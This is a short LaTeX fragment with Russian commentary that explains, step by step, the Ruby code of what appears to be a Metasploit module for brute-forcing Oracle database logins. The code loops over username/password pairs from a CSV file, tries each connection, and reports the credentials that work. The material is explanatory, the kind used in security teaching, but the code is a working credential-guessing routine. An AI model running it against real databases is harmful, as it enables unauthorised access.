 \documentclass[10pt,a4paper]{report}
\begin{document}
			\begin{enumerate}
				\item Получаем список тестовых логинов и паролей для БД.
				\begin{lstlisting}
list = datastore['CSVFILE']
				\end{lstlisting}
				
				\item В цикле пытаемся подключиться к БД.
				Если попытка удалась, то выводим информацию.
				\begin{lstlisting}
fd = CSV.foreach(list) do |brute|
datastore['DBUSER'] = brute[2].downcase
datastore['DBPASS'] = brute[3].downcase
begin
connect
disconnect
rescue ::OCIError => e
if e.to_s =~ /^ORA-12170:\s/
print_error("#{datastore['RHOST']}:#{datastore['RPORT']} Connection timed out")
break
end
else
report_cred(
ip: datastore['RHOST'],
port: datastore['RPORT'],
service_name: 'oracle',
user: "#{datastore['SID']}/#{datastore['DBUSER']}",
password: datastore['DBPASS']
)
print_status("Found user/pass of: #{datastore['DBUSER']}/#{datastore['DBPASS']} 
on #{datastore['RHOST']} with sid #{datastore['SID']}")
end
end
				\end{lstlisting}
			\end{enumerate}
\end{document}
